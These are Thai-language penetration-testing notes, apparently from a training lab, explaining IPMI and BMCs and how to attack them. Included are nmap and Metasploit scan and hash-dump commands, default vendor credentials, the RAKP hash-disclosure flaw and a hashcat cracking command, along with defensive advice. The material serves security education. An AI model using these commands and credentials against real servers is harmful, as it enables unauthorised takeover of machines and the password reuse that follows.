


# อธิบาย IPMI เป็นภาษาไทย

**Intelligent Platform Management Interface (IPMI)** คือชุดมาตรฐานสำหรับระบบจัดการฮาร์ดแวร์ที่ใช้ในการบริหารและตรวจสอบระบบคอมพิวเตอร์ มันทำงานเป็นระบบย่อยที่แยกออกมาโดยอิสระ ไม่ขึ้นกับ BIOS, CPU, firmware หรือระบบปฏิบัติการหลักของเครื่อง

## ความสามารถหลัก

IPMI ช่วยให้ผู้ดูแลระบบสามารถจัดการและตรวจสอบเครื่องคอมพิวเตอร์ได้แม้ในสถานการณ์ที่:
- เครื่องปิดอยู่
- ระบบไม่ตอบสนอง
- ระบบล้มเหลว

มันเชื่อมต่อโดยตรงกับฮาร์ดแวร์ผ่านเครือข่าย โดยไม่จำเป็นต้อง login เข้าระบบปฏิบัติการ

## การใช้งานทั่วไป

**IPMI มักถูกใช้ใน 3 กรณี:**
- แก้ไขการตั้งค่า BIOS ก่อนที่ระบบปฏิบัติการจะบูต
- เมื่อเครื่องปิดสนิท
- เข้าถึงเครื่องหลังจากระบบล้มเหลว

**สามารถตรวจสอบได้:**
- อุณหภูมิระบบ
- แรงดันไฟฟ้า
- สถานะพัดลม
- แหล่งจ่ายไฟ
- ข้อมูล inventory
- บันทึกฮาร์ดแวร์

## ส่วนประกอบสำคัญ

- **BMC (Baseboard Management Controller)** - ตัวควบคุมหลักของ IPMI
- **ICMB (Intelligent Chassis Management Bus)** - อินเทอร์เฟซสำหรับสื่อสารระหว่างแชสซี
- **IPMB (Intelligent Platform Management Bus)** - ส่วนขยายของ BMC
- **IPMI Memory** - จัดเก็บข้อมูลต่างๆ เช่น system event log
- **Communications Interfaces** - อินเทอร์เฟซสำหรับการสื่อสาร

## ข้อมูลทางเทคนิค

- **Port:** 623 UDP
- **BMC ยอดนิยม:** HP iLO, Dell DRAC, Supermicro IPMI
- **พัฒนาโดย:** Intel (ปี 1998)
- **รองรับโดย:** บริษัทฮาร์ดแวร์กว่า 200 ราย

## ความสำคัญด้านความปลอดภัย

การเข้าถึง BMC เท่ากับได้สิทธิ์เกือบเท่ากับการเข้าถึงเครื่องแบบกายภาพ เพราะสามารถ:
- ตรวจสอบระบบ
- รีบูต/ปิดเครื่อง
- ติดตั้งระบบปฏิบัติการใหม่
- เข้าถึงเมนบอร์ดโดยตรง

จากตัวอย่าง Nmap scan ที่แสดงไว้ สามารถใช้คำสั่งนี้เพื่อตรวจสอบ IPMI service:

```bash
sudo nmap -sU --script ipmi-version -p 623 [เป้าหมาย]
```
```
Watunyoo@htb[/htb]$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

# ช่องโหว่และวิธีโจมตี IPMI (ต่อจากข้อความก่อนหน้า)

## การตรวจสอบด้วย Metasploit

นอกจาก Nmap แล้ว เรายังสามารถใช้ Metasploit module เพื่อสแกนหา IPMI:

```bash
use auxiliary/scanner/ipmi/ipmi_version
set rhosts [เป้าหมาย]
run
```

## รหัสผ่านเริ่มต้นที่พบบ่อย

ผู้ดูแลระบบมักลืมเปลี่ยนรหัสผ่านเริ่มต้น ซึ่งเป็นช่องโหว่สำคัญ:

| ผลิตภัณฑ์ | Username | Password |
|----------|----------|----------|
| Dell iDRAC | root | calvin |
| HP iLO | Administrator | สุ่ม 8 ตัวอักษร (ตัวเลข+ตัวพิมพ์ใหญ่) |
| Supermicro IPMI | ADMIN | ADMIN |

## ช่องโหว่ร้ายแรง: RAKP Protocol Flaw

**ปัญหาหลัก:** IPMI 2.0 มีช่องโหว่ในโปรโตคอล RAKP ที่ทำให้:

- **ระหว่างการ authentication** เซิร์ฟเวอร์จะส่ง salted SHA1 หรือ MD5 hash ของรหัสผ่านมาให้ client **ก่อน**ที่จะยืนยันตัวตน
- สามารถดักจับ password hash ของ**ผู้ใช้ทุกคน**ที่มีอยู่ใน BMC
- นำ hash ไปแคร็กแบบ offline ได้ด้วย Hashcat mode 7300

### วิธีแคร็กรหัสผ่าน HP iLO

สำหรับรหัสผ่านเริ่มต้นของ HP iLO (8 ตัวอักษร: ตัวเลข+ตัวพิมพ์ใหญ่):

```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

## การดึง Password Hash ด้วย Metasploit

```bash
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts [เป้าหมาย]
run
```

**ตัวอย่างผลลัพธ์:**
```
[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000...
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
```

Module นี้จะ:
- ดึง hash ออกมาอัตโนมัติ
- พยายามแคร็กด้วย wordlist ทั่วไป
- บันทึกผลในรูปแบบ Hashcat หรือ John the Ripper

## ทำไมช่องโหว่นี้อันตราย?

**ไม่มีวิธีแก้ไขโดยตรง** เพราะเป็นส่วนหนึ่งของข้อกำหนด IPMI specification เอง

### วิธีป้องกัน:
- ใช้รหัสผ่านที่ยาวและซับซ้อนมาก
- แบ่งแยก network segment เพื่อจำกัดการเข้าถึง BMC
- ตรวจสอบว่าไม่มีการใช้รหัสผ่านซ้ำกับระบบอื่น

## ความเสี่ยงในโลกจริง

จากประสบการณ์การทดสอบเจาะระบบ:
- IPMI พบได้บ่อยมากในการประเมินส่วนใหญ่
- มักพบรหัสผ่านที่แคร็กได้ถูกนำไปใช้ซ้ำในระบบอื่น
- เคยพบกรณีที่หลังจากแคร็ก IPMI hash ได้แล้ว สามารถ SSH เข้าเซิร์ฟเวอร์สำคัญหลายเครื่องในฐานะ root
- ได้สิทธิ์เข้า web management console ของเครื่องมือ network monitoring ต่างๆ

## สรุป

**IPMI ควรอยู่ในรายการตรวจสอบทุกครั้ง** ในการทดสอบเจาะระบบภายใน เพราะ:
- เข้าถึง BMC ได้ = ความเสี่ยงสูงมาก
- มักพบรหัสผ่านเริ่มต้นหรือรหัสผ่านอ่อน
- อาจนำไปสู่การเข้าถึงระบบอื่นได้หากมีการใช้รหัสผ่านซ้ำ
- สามารถควบคุมเซิร์ฟเวอร์ได้อย่างสมบูรณ์



